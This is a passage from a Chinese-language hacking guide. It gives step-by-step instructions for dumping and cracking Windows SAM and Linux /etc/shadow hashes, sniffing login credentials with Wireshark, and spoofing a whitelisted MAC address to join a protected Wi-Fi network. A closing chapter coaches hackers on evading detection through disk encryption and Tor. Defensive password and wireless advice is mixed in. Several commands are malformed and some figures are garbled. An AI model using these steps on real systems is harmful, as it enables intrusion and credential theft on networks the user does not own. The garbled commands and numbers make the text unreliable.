如果黑客非常了解受害者，或者可以获取大量的个人信息，猜测法有时会更快、更有效。破解密码时需要记住的另一点是，大多数人在多个账户上使用同一个密码。因此，如果你能正确猜出一个密码，就有很大机会用它访问其他账户。

#### 社会工程

获取密码最明显的方法之一就是直接索要。根据所处的情况，人们有时会非常信任。黑客可以给用户打电话，假装是 IT 部门的，并告诉他们电子邮件系统出了问题。然后黑客会要求用户提供密码，以便登录并帮助他们修复问题。

这种密码破解方法由于大多数公司都会在其网站上列出员工及其联系方式而变得更加容易。社交媒体也是获取公司员工信息的绝佳途径。

#### 偷窥视（Shoulder Surfing）

这看起来可能太简单了，但在他人输入密码时从背后偷看也可以作为一种破解手段。为了让这种方法生效，黑客必须融入环境并非常接近目标。这涉及到在他们登录时注视屏幕，或者监控他们的键盘击键动作。如果是办公室的同事，只需走向他/她，请他们登录电子邮件或网络，然后看着他们输入密码即可。你必须表现得十分谨慎，以免引起怀疑。

在某些情况下，用户可能会在办公桌上寻找能让他们想起密码的物品。这可能是一个物体或一张照片。策略性放置的摄像头可以用于偷窥视，特别是在咖啡馆等公共场所。

#### 字典攻击

这是一种破解方法，你使用一个包含单词列表的程序，并尝试将该列表在受害界面上运行，直到破解密码。我们知道，哈希在数学上是不可逆的。但是，完全创建一个明文字典单词列表，对它们进行哈希，为每个哈希使用盐值，然后与用户密码的哈希函数进行比较是完全可能的。如果匹配，那么所使用的字典单词就是密码。

基础的密码破解工具使用包含常用单词列表的字典。更先进的工具倾向于将符号和数字加入字典单词中，通常位于单词的开头或结尾。还有一些字典攻击程序能够获取用户的个人资料并选择最相关的单词来破解密码。这些可能包括姓氏和家族成员的名字。

字典攻击最大的弱点之一是用于填充列表的单词是从用户/受害者那里获取的。这是该程序生效的唯一方式。如果受害者拼写能力差、使用不同的语言创建密码或使用字典中的单词，攻击将失败。

用于启动字典攻击的程序示例包括 `Cain and Abel`、`L0phtCrack` 和 `John the Ripper`。

#### 暴力攻击

穷举式的暴力破解密码攻击被认为是黑客在所有手段都失败时的最后手段。这是一种低效的方法，涉及系统地尝试字典中所有可能的单词组合。虽然最终可能奏效，但耗时太长了。在生效之前，你的孩子可能已经长大并结婚了。

它主要用于破解 6 个字符或更短的短密码。超过 7 个字符的内容，即使使用高级硬件也是不可行的。暴力攻击还假设黑客知道密码的字符数量以及大小写敏感。例如，如果密码仅包含 7 个字母和大写字母，程序将需要尝试 8,031,810,176 次。


对于一个仅使用 8 个字符的 `crypt()` 风格密码，黑客必须面对 958 种可能的输入字符。换句话说，你必须从 7 千亿种可能的组合中猜出正确的密码。用户密码中增加的字符越多，黑客需要处理的可能密码数量就越大。这种增长是指数级的。

如果你使用一台每秒可以破解 10,000 次的计算机，你需要 22,875 年。即使你找来了大约 1000 台计算机来帮助你，平均还需要 22 年才能破解密码。

另一方面，如果可能的密码随着每个字符的增加而呈指数级增长，反之亦然。减少密码字符的数量会以指数级减少可能的密码数量。例如，如果你想破解一个只有四个字符的密码，假设你有一台每秒执行 10,000 次破解的机器，大约需要两个小时。密码甚至不需要由单词组成，例如 `g5T&`。它仍然会被很快破解。

暴力破解攻击技术的一个优点是，无论密码多复杂，它最终都能破解。正如前面提到的，问题在于没有人能预测这需要多长时间。

应用暴力破解方法的程序示例包括 `Oracle`、`Rarcrack` 和 `John the Ripper`。

## 彩虹表 (Rainbow Tables)

这种攻击模式是预先计算的，与字典攻击和暴力破解方法不同，后者要求黑客将密码输入用户系统然后与原始密码进行比较。使用彩虹表时，首先会对字典中的每个单词计算哈希，然后将其存储在哈希表中。接着，彩虹表从系统中提取用户的哈希密码，并将其与哈希表中的密码列表进行比较。

这里必须做出一些假设，即黑客可以获取用户的哈希密码，并且用于密码哈希处理的算法与彩虹表中的算法相同。然而，大多数低安全哈希算法倾向于使用 `SHA-1` 和 `MD5`，因此在你的彩虹表上使用这些算法。

这种方法的缺点是表在你的硬盘上需要巨大的存储空间。很显然，不同的明文密码将产生包含不同盐（salts）的不同哈希密码。这意味着每个盐都需要自己的表。如果使用了 `DES crypt()` 函数，盐值的数量将有 4,096 个，这使得即使是 4 个字符的密码，彩虹表也不可行。现在内存便宜得多，这不再是一个大问题，但对大存储空间的需求往往会令人们放弃这种破解方法。

应用彩虹表的程序包括 `RainbowCrack` 和 `OphCrack`。

## 密码概率矩阵 (Password Probability Matrix)

在技术领域，人们公认存储空间和计算能力之间始终存在权衡。例如，`mp3` 文件对于高质量音乐文件只需要很少的存储空间，但这仅仅增加了对更大计算能力的需求。相比之下，你的普通计算器需要的计算能力非常小，因为它包含一个存储函数的预计算查找表。

密码概率矩阵的工作原理是尝试寻找力量与空间之间的完美平衡，以缩短暴力破解密码所需的时间。换句话说，所需的时间和存储空间必须是。遗憾的是，你仍然必须处理盐的问题。然而，可以通过最小化所需的存储空间来缓解这个问题，同时又不损害 `crypt()` 密码哈希中 4,096 个可能的盐所需的空间。

这种方法涉及构建一个 3-D 二进制矩阵，将明文值部分与哈希值部分连接起来。

使用概率矩阵的缺点是创建矩阵本身需要非常长的时间。事实上，这花费的时间与运行暴力破解攻击一样多。盐对黑客来说仍然是一个问题。

## 如何使用 John the Ripper 和 pwdump3 破解密码

`John the Ripper` 用于破解 Windows 和 LINUX 的哈希密码，而 `pwdump3` 用于从安全账户管理器（Security Accounts Manager）数据库中提取哈希密码。需要注意的是，你需要管理员权限才能运行此操作。

对于 Windows 密码，请按照下面描述的简单步骤操作：

1. 从你的 Windows `C:` 驱动器创建一个目录并命名为 `passwords`。
2. 如果你没有解压缩工具，你需要在计算机上下载并安装一个。你可以使用 `7-zip` 或 `WinZip`。
3. 下载 `John the Ripper` 和 `pwdump3`，解压并安装到你的系统中。确保将它们解压到第 1 步创建的 `passwords` 目录。
4. 输入以下命令运行 `pwdump3`：
```
c :passwdump3 > cracked.txt
```
这将输出重定向到文件 `cracked.txt` 中，该文件将捕获 `John the Ripper` 破解的 Windows SAM 密码哈希。
5. 输入命令：
```
c :passwordsjohn cracked.txt
```
此命令将运行 `John the Ripper` 处理 Windows 密码哈希。结果应该是 Windows 用户的破解密码，尽管很难估计该过程需要多久。这完全取决于用户的数量及其密码的复杂程度。

对于 LINUX/UNIX 系统，请按照下面描述的步骤操作：

1. 下载 LINUX 源文件。
2. 输入以下命令提取程序：
```bash
[root@localhost yourfilename ] #tar - zxf john -1.9.tar.gz
```
3. 进入第 2 步解压后创建的 `/src` 目录。输入命令：`generic`
4. 进入 `/run` 目录。输入命令：
```bash
.unshadow /etc/passwd /etc/shadow > cracked.txt
```
此命令将利用 `unshadow` 程序合并文件并复制到 `cracked.txt` 文件中。
5. 输入命令启动破解过程：
```bash
. john cracked.txt
```
该过程可能需要一段时间才能完成，但一旦 `John the Ripper` 完成，你将获得与 Windows 中类似的的输出。

## 密码存储位置

不同的操作系统通常将密码存储在各自独特的位置。例如，Windows 将密码存储在：

- 安全账户管理器 (SAM) 数据库：`c:winntsystem32config` 或 `c:windowssystem32config`。
- 活动目录数据库：存储在本地或不同的域控制器上。

对于 LINUX 和其他相关操作系统，密码存储在：

- `/etc/passwd`
- `/.secure/etc/passwd`
- `/etc/security/passwd`
- `/etc/shadow`

如果你必须在设置一个可以记住的弱密码和一个由于过于复杂而必须写下的强密码之间做出选择，你会选择哪一个？更好的选择是将复杂的密码写下来存储在安全的地方。安全的地方不包括受密码保护的计算机文件。你拥的最安全的存储选项包括：

- 密码管理器：这些工具可以存储多个账户的密码。例如 `Password Safe`、`LastPass` 或 `Dashlane`。
- 全盘加密你的硬盘，以锁定想要访问操作系统的恶意黑客。
- 锁上的保险箱或文件柜。


学习如何破解他人的密码固然很好，但如果知道如何防止其他黑客破解你的密码，会更好。你可以采取许多通用的防御措施来避免密码被破解。最基本的方法是确保每个系统、账户或网站都有其唯一的密码。避免为你的所有用户账户创建同一个密码的诱惑。

当然，这意味着你要么得记住所有的密码，要么得把它们全部写下来。这两种选择分别是繁琐且具有极高风险的。

## 密码策略

受雇于加强组织信息安全的伦理黑客必须强调建立严格密码策略重要性。这可以通过向用户展示生成安全密码的方法来实现。人们倾向于使用单个单词来创建密码，例如 `monkey`。然而，更安全的策略是使用短语，例如 `bigredmonkey`。

另一种方法是向用户展示与他人共享密码或创建弱密码的后果。如果人们能够直观地看到并理解在黑客破解了他们的密码后会发生什么，他们就会更认真地对待密码安全问题。最后，必须让用户意识到社会工程攻击以及它们是如何发生的。

这三条建议可以扩展为制定一项能够提供足够信息安全的组织密码策略。在此过程中，必须执行某些特定标准：

- 使用大小写字母、数字、符号和其他特殊字符的组合。仅使用字母或数字绝不是一个明智的决定。这对于恶意黑客来说非常容易。
- 使用拼写错误的单词或缩写词。
- 使用标点符号分隔单词。
- 每隔 6 到 12 个月更改一次密码。一旦发生安全泄露，必须立即更改密码。
- 确保你拥有的每个账户都有其唯一的密码，特别是对于服务器、路由器和防火墙。使用相似的密码并没有错。你需要对你使用的不同系统稍微微调一个密码。例如，对一个账户或系统使用 `WindinTheWillows-76`，对另一个使用 `Yahoo89+WindInTheWillows`。
- 改变密码长度。使用可变化的长度会让黑客的生活变得困难，因为他们将被尝试所有的密码长度组合。
- 避免使用口语或俚语，以及任何字典单词。
- 当你更改密码时，不要重复使用过去五次更改中任何旧密码。
- 避免与他人共享密码。大多数人倾向于向要求使用他们电脑的同事或朋友提供密码。无论任何代价都不要透露密码。
- 为屏幕保护程序设置密码。加密硬盘配上未解锁的屏幕是黑客可以利用的漏洞。
- 不要存在不受保护的 MS Office 文件中存储密码。始终使用密码管理器程序。

还有一些更高级的防止密码被破解的方法：

- 设置安全审计以监控密码攻击。
- 使用 `WinHex` 等高级软件检查你的系统是否在内存中永久保存密码。
- 确保正在使用的系统已打补丁。
- 作为管理员，你应该启用账户锁定功能，如果某个特定次数的尝试中输入错误密码，将用户锁定在系统之外。如果是用户忘记了密码，他们必须通知安全管理员。
- 建立更强大的身份验证措施，如生物识别、智能卡或数字证书。
- 使用密码锁定系统 BIOS。

# 第 10 章：破解网站和 Web 应用

以下是网站和 Web 应用的一些主要漏洞：

## 目录遍历攻击

目录可以描述为网页设计人员用于存储网站文件的文件夹。目录遍历攻击是指黑客能够访问并在网络目录与存储在目录中的文件之间导航。这些是网站最敏感的文件之一，例如 `root`、`htaccess` 和 `confi` 文件。

目录遍历攻击的另一个名称是 `../`（点点斜）攻击。首先理解它的含义很重要。每当输入 `..` 作为命令时，系统就会收到一个指令，向上移动一个文件夹。假设你目前位于位置 `C: Users/John/Downloads/Education`。如果你输入 `..`，你将向上移动一个文件夹到 `C: Users/John/Downloads`。再次输入该命令，你将到达 `C: Users/John`。

现在，如果你想访问位于“John”文件夹中名为 `abcdefg.txt` 的文本文件，你必须输入命令 `....abcdefg` 来移动到存储文本文件的地方。注意，为了向上移动两个文件夹，你输入了四个点。

目录遍历攻击是一种 HTTP 漏洞，旨在访问受限文件或查看 Web 服务器上的随机文件，例如密码文件和 SSL 私钥。大多数黑客通常热衷于进入服务器的 `root` 目录，而使用上述“点点斜”技术是可以实现的。利用这一漏洞可以让你访问包含密码或机密信息的文件。

黑客还可以进行搜索，以确定网站目录中公开访问的文件类型。你可以使用像 `HTTrack` website `Copier` 这样的爬虫程序来找到每个公开的文件。这个免费工具易于使用。只需加载它，命名项目，并指示软件它应该镜像哪些网站。几分钟或可能几小时后，`HTTrack` 将向你显示网站包含的所有文件和记录，并将它们存储在你的驱动器 `C: My Websites` 中。

大多数网站通常包含不应公开查看的敏感信息，例如源代码和脚本。注意服务器中的 `.zip` 或 `.rar` 文件。即使是 `.html` 或 `pdf` 文件也可能包含有用信息。

目录遍历防御措施


防止恶意黑客对网站发起的目录遍历攻击主要涉及采用三种主要的防御措施：

避免在服务器上存储旧的、机密的和私有的文件或记录。确保您的 `DocumentRoot` 或 `/htdocs` 文件夹仅包含对网站顺利运行至关的文件。此类文件绝不能包含任何你不希望公众看到的敏感信息。

- 通过配置您的 `robots.txt` 文件，防止 Google 和其他搜索引擎爬取您的网站并将敏感数据存储在它们的缓存中。

 确保您正在使用的 Web 服务器已配置为仅允许公众访问必要的目录。设置最小权限以控制公共访问，并仅允许访问使网站正常运行的目录。如果您不确定如何操作，请阅读您的 Web 服务器文档。如果您正在使用 Internet 信息服务（IIS），请在 IIS 管理器中检查。如果您的服务器使用的是 Apache，请检查 `.htaccess` 或 `httpd.conf` 文件。

另一种可以有效对抗恶意黑客的方案是使用 Google Hack Honeypot（Google 黑客攻击蜜罐）。这种搜索引擎蜜罐会吸引恶意黑客，并让你看到他们是如何攻击您的网站的。随后您就可以采取相应的防御措施。

## 默认脚本攻击

大多数 Web 开发人员或网站管理员通常在网站上使用脚本，但并不真正理解脚本的工作原理，而且在大多数情况下没有经过测试。他们倾向于将便利性置于网络安全之上。懒惰的 Web 开发者宁愿为他们的网站使用公开访问的脚本，但此类默认脚本是非常不安全的。恶意黑客可以轻松获取存储在 Web 服务器上的文件的未经授权访问权限，并操纵他们想要的任何内容。

默认脚本攻击之所以流行，是因为大多数程序（如 `Active Server Pages`（ASP）和 `Hypertext Preprocessor`（PHP））拥有的脚本编写得很糟糕。网站中使用了大量编写不当的代码。这些错误在网站开发者和管理员用于维护内容的内容管理系统中随处可见。黑客只需要使用示例脚本并将其安装到目标网站即可。

要实施默认脚本攻击，您首先需要测试是否存在任何脚本漏洞。您可以手动阅读脚本，或使用文本搜索工具来查找用户 ID、密码或其他类型的敏感信息。要搜索的关键词示例包括 `user`、`password`、`pwd`、`pass`、`root`、`admin` 或 `logon`。

## 网站密码破解

每当人在 Web 应用程序中输入用户名和密码并点击 `ENTER` 时，该信息会被发送进行身份验证。然而，黑客可以轻松捕获这些信息、存储并在稍后进行分析。如果黑客是从局域网（LAN）进行的，这会变得更容易。

下文描述的破解方法最适用于局域网，因此如果您想通过互联网进行，您必须处于集中的 HUB 或网关路由器上。确保您所处的网络允许广播流量，且您的网卡处于混杂模式。请先使用 `VMWare` 尝试以下步骤。

### 操作说明：

1. 如果您还没有 `Wireshark`，请下载并安装。

2. 在 `kali Linux` 中运行 `Wireshark`。进入 `Application > Kali Linux > Top 10 Security Tools > Wireshark`。打开 `Wireshark` 后，点击 `Capture（捕获），然后点击 `Interface（接口）。在设备列中，选择要使用的接口。按下 `Wireshark` 的启动按钮开始捕捉流量。

3. 由于 `Wireshark` 会捕捉网络上大量的流量和数据，您需要对其进行过滤。记住，我们只对 `POST` 数据感兴趣，因为用户的每次登录都会生成一个 `POST` 方法。这这意味着用户已向远程服务器发送了数据。进入过滤器框并输入：

```
http.request.method = = “POST”
```

这将显示显示所有 POST 事件的结果。

4. 分析数据以获取用户名和密码。每个用户登录都有其单独的一行信息。右键点击您想要破解信息的所在行。将弹出一个选项列表，在底部点击 `Follow TCP Stream（跟踪 TCP 流）`将打开一个新窗口，密码和用户名分别显示在 `password` 和 `scifuser` 字段中。在某些情况下，密码可能以哈希形式出现，因此您必须识别哈希值。

5. 您可以使用 `Hash ID` 来识别哈希类型。运行程序并在 `root@kali` 命令行中输入 `hash-identifier`。将哈希值复制并粘贴到 `HASH` 命令行中。程序将告诉您可能的哈希类型。

6. 使用许多许多哈希密码破解工具之一，例如 `hashcat`、`cudahashcat`或其他软件。这将向您展示真实的明文密码。

## 针对网站破解的防御措施

维护网站或 Web 应用程序的安全需要时刻警惕。网站管理员和开发人员必须跟上黑客世界的动态、正在开发的工具以及恶意黑客正在采用的技术。以下措施可以帮助保持网站安全：

- 事实并非每个网站都能负担得起为密码安全实施 `SSL` 加密。然而，公共网站的管理员必须确保密码至少经过哈希处理，以提供针对恶意黑客的额外安全层。没有必要为可能只是在碰运气破解您网站的黑客提供便利。
- 每个服务器应运行在不同的机器上，以便为数据库和 Web 应用程序提供更好的保护。每台机器都应经过彻底测试，以确保其操作系统安全。
- 利用 Web 服务器内置的安全功能来控制访问并隔离不同的应用程序。如果某个应用程序被破解，其他应用程序将不会受到威胁。
 使用 使用 `Port 80 Software ServerMask` 等匿名工具隐藏服务器的身份。
- 设置网络防火墙以检测并防止黑客访问您的网络。
- 使用 `ServerDefender` 和 `SecureIIS` 等程序检测攻击并在造成损害之前阻止它们。

维护网站或 Web 应用程序的安全需要每个 Web 开发者意识到他们是第一道防线。这会对信息的整体安全产生巨大影响。

# 第 11 章：破解无线网络

使用无线网络有很多优点。然而，这种技术也伴随着黑客可以利用的威胁和漏洞。由于信息是通过无线频率空中传输的，与有线连接相比，黑客更容易截获它。

无线网络由 4 个基本元素组成：

- 连接到无线接入点
- 通过无线频率传输的数据
- 使用的客户端设备，如笔记本电脑、平板电脑等
- 用户

## 无线网络攻击

### 意外关联

无线网络可能会意外破解。在某些情况下，一个无线网络与另一个网络重叠，导致任何用户都会意外进入另一个非目标的网络。这看起来可能无害，但恶意黑客可以利用这一点获取本不应以这种方式暴露的信息。如果重叠的网络属于机构，那么该链接可以被用于窃取专有数据。


这种情况发生在恶意黑客使用他们自己的设备而非合法的接入点（AP）访问私有网络时。黑客可以创建一个“软 AP”，这可能是一台运行了软件的笔记本电脑，使其无线网卡看起来像真实的接入点。这允许黑客窃取密码、攻击计算机或向用户发送木马程序。黑客可以有效地完全控制每一台加入虚假网络的计算机。

## 自组织网络 (Ad-hoc Networks)

这些是两台无线计算机之间的网络，它们之间没有接入点隔开。由于此类网络很少受到充分的保护，它们很容易受到攻击。

## 非传统网络 (Non-traditional networks)

这些包括蓝牙设备、无线打印机、手持式 PDA 和条码扫描器。这类网络很少由 IT 人员进行加密，因为所有重点通常都在笔记本电脑或接入点上。这使得它们成为恶意黑客的目标。

## MAC 欺骗 (MAC Spoofing)

这是身份盗窃的形式，黑客通过监控网络流量来识别哪个计算机具有网络权限。其目的是获取网络内该特定计算机的 `MAC`（媒体访问控制）地址。大多数无线系统都有 `MAC` 过滤器，允许只有具有特定 `MAC` 地址的特定计算机访问并使用网络。黑客可能会获取能够“嗅探”网络的软件来寻找这些授权的计算机及其 ID，然后使用其他软件允许黑客的计算机使用这些窃取的 `MAC` 地址。

## 中人攻击 (Man-in-the-middle Attacks)

这种情况发生在恶意黑客将其笔记本电脑设置为软接入点，然后诱导其他用户使用它。随后，黑客使用不同的网卡将软接入点连接到真实的接入点，从而强制用户通过虚假 AP 访问真实 AP。这使得黑客能够从流量中嗅探到他们想要的任何信息。`AirJack` 和 `LANjack` 等软件使得这类攻击变得更容易。无线热点是启动此类攻击的绝佳场所，因为此类网络几乎没有任何实质性的安全防护。

## 拒绝服务攻击 (Denial of Service Attacks)

这是黑客持续向特定的接入点发送大量的请求、命令和消息，直到网络崩溃，或者仅仅是为了防止真实用户进入网络。

## 网络注入攻击 (Network Injection Attack)

恶意黑客向不过滤流量的接入点注入伪造的网络重配置命令。这些虚假命令会导致整个网络或交换机、路由器和集线机崩溃，强制每个网络设备重启或重新编程。

## 无线网络认证 (Wireless Network Authentication)

无线网络的设计旨在让任何拥有带有无线功能的设备的人访问。出于此原因，大多数网络使用密码进行保护。有两种常用的认证技术：`WEP` 和 `WPA`。

### WEP

它代表有线等效隐私（Wired Equivalent Privacy），开发用于为用户提供与有线网络同水平的隐私。它遵循 `IEEE 802.11` WLAN 标准。`WEP` 对在网络传输的数据进行加密以防止窃听。

### WEP 漏洞

这种认证技术的设计中存在严重缺陷：

- 它使用循环冗余校验 32（`Cyclic Redundancy Check 32`）验证数据包的完整性。`CRC32` 的问题是黑客只需要捕捉两个包就可以破解网络。他们还可以修改校验和和加密流，强制系统接受该数据包。
- 它使用 `RC4` 加密算法来生成由密钥和初始值（`IV`）组成的流密码。`IV` 的长度固定为 24 位，但密钥长度可以是 40 到 104 位。如果使用较短的密钥，网络将更容易被破解。
- 由于它是基于密码的认证技术，黑客可以成功部署字典攻击。
- 它没有中央密钥管理系统，因此在大型网络中更改密钥非常困难。
- 由于存在许多安全漏洞，`WEP` 已经被弃用并被 `WPA` 取代。

### 如何破解 WEP 网络

可以通过被动攻击或主动破解来利用 `WEP` 网络上的众多安全漏洞。如果启动了被动攻击，在 `WEP` 认证被成功破解之前，网络流量不会受到影响。这使其更难被检测。主动破解往往会增加网络负载，因此更容易检测，尽管它也更有效。

用于破解 `WEP` 的工具包括：

- `Aircrack` - 这也是一个网络嗅探器，可以从 `www.aircrack-ng.org/` 下载。
- `Kismet` - 这个多功能工具可以嗅探网络数据包，检测不可见和可见的网络，甚至识别入侵。它可以从 `www.kismetwireless.net/` 下载。
- `WEPCrack` - 这个开源工具可以破解密钥密钥，可以在 `www.wepcrack.sourceforge.net/` 下载。
- `WebDecrypt` - 它使用字典攻击破解 `WEP` 密钥并生成自己的密钥。可以在 `www.wepdecrypt.sourceforge.net/` 获取。

### WPA

它代表无线保护访问（Wi-Fi Protected Access），开发用于涵盖在 `WEP` 中发现的漏洞。`WPA` 使用比 `WEP` 更大的 `IV` ——准确来说是 48 位。数据包使用临时密钥加密。

### WPA 漏洞

- 黑客可以利用拒绝服务攻击轻松克服它。
- 它的密钥依赖于短语，如果使用弱的短语，就可以成功启动字典攻击。

### 如何破解 WPA 网络

由于 `WPA` 使用短语验证用户登录，协调良好的字典攻击使其变得脆弱。破解 `WPA` 的工具包括：

- `Cain and Abel` - 它用于解码通过 Wireshark 等程序嗅探的文件。
- `CowPatty` - 这是一个破解预共享密钥的暴力破解工具。下载地址：`wirlessdef.org/Contents/coWPain.htm`


确保你的 Wi-Fi 适配器处于监控模式。要找到目标选定的无线网络以及连接到它的任何客户端，请输入此命令：

```
Arodump-ng-c [channel]-bssid [target router MAC Addres]-I wlan0mon
```

将弹出一个窗口，显示连接到网络的客户端列表。它们的白名单 MAC 地址也会被显示。这些就是你为了进入网络而需要伪造的地址。

从列表中选择一个白名单 MAC 地址来伪造你自己的地址。在执行伪造之前，你必须关闭监控接口。输入命令：

```
Airmon-ng stop wlan0mon
```

下一步是关闭你打算伪造的 MAC 地址的无线接口。输入命令：

```
Ifconfig wlan0 down
```

然后，你使用 `Mcchanger` 软件来更改地址。输入命令：

```
Macchanger -m [New MAC Address] wlan0
```

记住，你在第 3 步中已经关闭了无线接口。现在是时候把它重新启动了。使用以下命令：

```
Ifconfig wlan0 up
```

现在，你的无线适配器的 MAC 地址已经更改为授权用户的地址，测试并查看网络是否会验证你的登录。你应该能够连接到该无线网络。

## 保护无线传输

对无线网络的攻击带来了三个主要威胁：中断、篡改和拦截。为了防止恶意黑客窃听无线传输，你可以使用以下方法：

- **信号隐藏方法**：在恶意黑客能够拦截无线传输之前，他们必须首先定位无线接入点。组织可以通过关闭接入点广播的 SSID（服务集标识符）、为 SSID 分配一个加密的名称、降低信号强度以仅提供必要的覆盖范围，或将接入点远离外墙和窗户来增加这种难度。还有一些更有效但更昂贵的技术，例如使用定向天线将信号限制在特定区域内，或使用 `TEMPEST`（一种阻止无线信号发射的技术）。
- **对所有无线流量进行更强的加密**：这对于必须保护无线广播信息机密性的组织来说非常重要。这种措施减少了中间人攻击的风险。
- **更强的身份验证程序**：这应该适用于用户以及他们的设备。这可以最大限度地减少中间人攻击。

## 针对拒绝服务攻击的防御措施

恶意黑客有时可能会尝试攻 own 特定组织的服务器，但在某些情况下，`DoS`攻击可能是无意的。可以采取某些步骤来最大限度地减少这种形式攻击的风险：

- 仔细进行现场调查，以确定其他设备发出的信号位置。这应该作为决定接入点放置位置的指南。
- 定期对网络性能和活动进行审计，以确定出现问题的区域。如果有任何违规设备，应将其移除。还应采取措施增强问题区域的信号覆盖和强度。

## 保护无线接入点

配置不当的无线接入点是一个巨大的漏洞，可能允许恶意黑客未经授权访问机密。为了保护无线接入点，必须采取以下防御措施：

- **消除所有非法接入点**：此此的最佳方法是使用 `802.1x` 防止任何非法设备接入并连接到无线网络。
- **确保所有真实的接入点都经过正确配置**：确保更改所有默认设置，因为这些设置是公开的，黑客可以轻易利用它们。
- **使用 802.1x 协议对每台设备进行身份验证**：强大的身份验证系统将防止未经授权的设备设置后门。该协议确保在为任何设备分配 IP 地址之前进行严格的身份验证。

## 保护无线设备

在评估针对无线设备的安全威胁时，有两个视角：盗窃/丢失和破解。笔记本电脑和 PDA 通常包含大量机密敏感信息，因此必须防止被盗窃或丢失。当恶意黑客获取设备中存储数据的访问时，无线客户端设备也可能破解。黑客还可以利用设备对其他系统和网络发起攻击。

## 保护无线网络

- **加密**：这是保护无线网络的最佳方法。大多数基站、接入点和无线路由器都内置了加密机制，能够对网络通信进行加密。始终确保你购买的路由器带有加密功能。大多数制造商默认关闭此功能，因此确保在开始使用路由器之前手动将其开启。
- **反间谍软件、防病毒软件和防火墙**：确保你的无线网络受到保护的方式与线连接相同。保持所有软件更新，并始终检查防火墙是否开启。
- **关闭路由器的标识符广播**：这是无线路由器用于在区域内广播其存在的机制。然而，如果用户知道网络已经在那里，就没有必要宣布其存在。恶意黑客倾向于搜索标识符广播以锁定潜在目标。如果你的路由器允许禁用标识符广播，请禁用它。
- **更改默认标识符**：每个路由器都有制造商给出的默认 ID。你可能关闭了标识符广播，但如果黑客发现了公开访问的默认 ID，他们仍然可以攻击网络。更改标识符，不要忘记将新 ID 配置到你的计算机。
- **更改默认密码**：制造商为每个路由器分配一个默认密码，以便用户初始设置设备。这些默认密码很容易找到，请确保你将路由器密码更改为非常难以破解的内容。此外，尽量让密码尽可能长。
- **指定授权连接到网络的设备**：配置你的路由器仅允许特定的 `Mac` 地址连接到网络。然而，不要仅依赖这种技术，因为 `Mac` 伪造仍然可能。
- **闲时关闭网络**：每当不使用无线网络时，请确保其已关闭。这将限制黑客用来渗透网络的机会窗口。
- **在 Wi-Fi 热点处保持警惕**：大多数人喜欢使用机场、咖啡馆、酒店和其他公共场所的免费 Wi-Fi。这些无线网络很少安全，所以不要假设它们是安全的。

## 保护用户

没有比对所有用户进行教育和培训更好的保护无线网络的方法了。用户不仅是指连接网络的人，还包括 IT 人员和管理员。教导人们如何以维护无线网络安全的方式行为是非常重要的。这种用户培训和教育必须是一项定期的工作。

面对现实吧。完全消除无线网络带来的所有风险是不可能的。早晚会有黑客攻入的。然而，可以采取一些行动来维持合理的通用安全水平。这通过使用系统的风险评估和管理技术来实现。

# 第三部分：后果

# 第 12 章：为什么黑客行为是绝对必要的


大多数人认为黑客攻击是破坏性和具有危害的，但事实是，黑客是网络和信息安全不可或缺的组成部分。如果个人和组织想要有效地收紧安全漏洞，发起道德黑客（ethical hack）至关重要。

那么，为什么黑客攻击是测试网络或系统的最佳方法？

### 理由 #1：恶意黑客永远不会放弃破解尝试。
他们一直在开发新的先进工具和方法来绕过现有的安全协议。如果道德黑客不跟上他们的脚步，系统和网络每天将受到以前所未有的频率的侵害。击败对手最好的方法是学习他们的思维方式，了解他们知道的一切（甚至更多），并在他们擅长的领域上击败他们。

### 理由 #2：法律合规和清单式审计是不够的。
某些法律和法规要求组织必须采取适当的安全措施。然而，合规这些规定并不意味着你自动免受恶意黑客的攻击。清单式审计固然很好，但无法提供所需的保护。道德黑客工具和方法是发现那些审计无法检测的真实漏洞的最佳途径。

### 理由 #3：道德黑客可以与高级安全审计协同工作。
没有理由将所有的鸡蛋放在一个篮子里。将合规检查和内部审计作为安全倡议的一部分是极好的，但将道德黑客攻击纳入流程中会有效得多。

### 理由 #4：合作伙伴和客户现在更加关注与其业务来组织的安全性。
许多企业不会与无法保证其网络安全的合作伙伴合作。客户和合作伙伴现在要求对与其合作的公司进行深度的安全评估。一份道德黑客报告可以提供这种保证。

### 理由 #5：随着信息系统每天变得复杂，恶意黑客占据上风将指日可待。
人们需要意识到，恶意黑客只需要找到系统中的一个缺陷即可发动攻击。而 IT 部门的人员需要找到所有的漏洞。谁获胜的概率更高？为了保护系统和网络，你需要像恶意黑客一样思考。

### 理由 #6：道德黑客能以实用的方式展示潜在威胁。
在大多数情况下，管理层人员并不真正理解犯罪黑客对系统可能产生的影响。知道密码很弱是一回事，但看到由于密码弱弱导致的漏洞利用结果完全是另一回事。道德黑客有助于提高人们对安全漏洞的理解，并促使采取应对措施。

### 理由 #7：道德黑客可以在发生安全漏洞时提供备用计划。
如果恶意黑客进入系统并导致企业面临诉讼，管理层可以使用之前的黑客测试来证明他们一直在进行定期的安全检查。如果证明企业没有投入足够的努力来保护受托信息，其代价将是非常昂贵的。

### 理由 #8：道德黑客攻击结合了漏洞评估和渗透测试。
单凭漏洞评估本身不足以检测到系统中的每一个缺陷。渗透测试也是如此。然而，通过道德黑客攻击将两者结合，可以兼得其长。

### 理由 #9：道德黑客能够揭示可能被忽视已久的深层漏洞。
道德黑客通常会发现技术、人为和物理漏洞。然而，黑客攻击还能揭示 IT 和安全人员操作方式中的缺陷，例如：意识薄弱、变更管理失败等。

# 第 13 章：黑客行为准则与忌

作为一名黑客，你必须始终确保每一步行动都是正确的。开始黑客时可能觉得很有趣，但新手黑客必须警惕一些潜在的陷阱。这些错误可能决定你是成功执行了一次攻击，还是被反黑，甚至是被捕。

对于那些认真想要以正确方式进行黑客活动且不被发现的人，必须使用某些特定方法来避免检测。下文的方法被专家黑客使用，以领先于那些想要击败他们的人。

## 黑客攻击时避免检测

确保你的硬盘已加密。。使用 `VeraCrypt`，这是一种开源磁盘加密软件，提供了极强的安全性。从 `www.sourceforge.net/projects/veracrypt/` 了解更多关于 `VeraCrypt` 的信息。

安装一个能够像虚拟机一样运行且通过 `Tor` 路由流量的桌面操作系统。建议在上述加密硬盘上安装 `Whonix`。`Whonix` 由两个部分组成：`Whonix-Gateway` 和 `Whonix-Workstation`。`Whonix-Gateway` 仅运行 `Tor` 并控制所有访问的访问。换句话说，你只能通过 `Tor` 连接在线——其他方式都无法工作。`Whonix-Workstation` 在完全隔离的网络上运行。`Whonix` 允许你在网上保持匿名，服务器和应用程序在不被检测的情况下运行。即使是具有 root 权限的恶意软件也无法暴露真实的 IP 地址。从 `www.whonix.org` 了解更多信息。

